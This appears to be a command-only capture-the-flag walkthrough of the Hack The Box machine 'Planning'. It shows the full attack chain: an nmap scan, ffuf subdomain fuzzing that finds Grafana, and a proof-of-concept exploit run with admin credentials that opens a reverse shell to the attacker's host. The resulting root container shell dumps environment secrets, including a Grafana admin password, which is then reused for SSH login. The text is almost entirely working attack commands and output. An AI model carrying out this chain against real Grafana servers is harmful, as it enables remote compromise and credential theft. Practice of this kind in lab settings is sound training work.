

# nmap -sC -sV -T5 --open 10.10.11.68 Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 09:40 AST Nmap scan report for 10.10.11.68 (10.10.11.68) Host is up (0.078s latency). Not shown: 998 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA) |_ 256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519) 80/tcp open http nginx 1.24.0 (Ubuntu) |_http-title: Did not follow redirect to http://planning.htb/ |_http-server-header: nginx/1.24.0 (Ubuntu) Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
# ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://planning.htb/' -H "Host:FUZZ.planning.htb" -fs 178
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://planning.htb/
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
:: Header : Host: FUZZ.planning.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 178
________________________________________________
grafana [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 70ms]

# python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.217 --reverse-port 9001 [SUCCESS] Login successful! Reverse shell payload sent successfully! Set up a netcat listener on 9001
# nc -lvnp 9001 listening on [any] 9001 ... connect to [10.10.14.217] from (UNKNOWN) [10.10.11.68] 51510 sh: 0: can't access tty; job control turned off # whoami root # env GF_PATHS_HOME=/usr/share/grafana HOSTNAME=7ce659d667d7 AWS_AUTH_EXTERNAL_ID= SHLVL=1 HOME=/usr/share/grafana AWS_AUTH_AssumeRoleEnabled=true GF_PATHS_LOGS=/var/log/grafana _=whoami GF_PATHS_PROVISIONING=/etc/grafana/provisioning GF_PATHS_PLUGINS=/var/lib/grafana/plugins PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin AWS_AUTH_AllowedAuthProviders=default,keys,credentials GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT! AWS_AUTH_SESSION_DURATION=15m GF_SECURITY_ADMIN_USER=enzo GF_PATHS_DATA=/var/lib/grafana GF_PATHS_CONFIG=/etc/grafana/grafana.ini AWS_CW_LIST_METRICS_PAGE_LIMIT=500 PWD=/usr/share/grafana #
# ssh enzo@planning.htb The authenticity of host 'planning.htb (10.10.11.68)' can't be established. ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw. This key is not known by any other names. Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added 'planning.htb' (ED25519) to the list of known hosts. enzo@planning.htb's password: Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64) * Documentation: https://help.ubuntu.com * Management: https://landscape.canonical.com * Support: https://ubuntu.com/pro System information as of Sun May 25 02:18:11 PM UTC 2025 System load: 0.0 Processes: 240 Usage of /: 66.4% of 6.30GB Users logged in: 1 Memory usage: 46% IPv4 address for eth0: 10.10.11.68 Swap usage: 0% Expanded Security Maintenance for Applications is not enabled. 0 updates can be applied immediately. 1 additional security update can be applied with ESM Apps. Learn more about enabling ESM Apps service at https://ubuntu.com/esm The list of available updates is more than a week old. To check for new updates run: sudo apt update Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings Last login: Sun May 25 14:18:13 2025 from 10.10.14.217 enzo@planning:~$ ls user.txt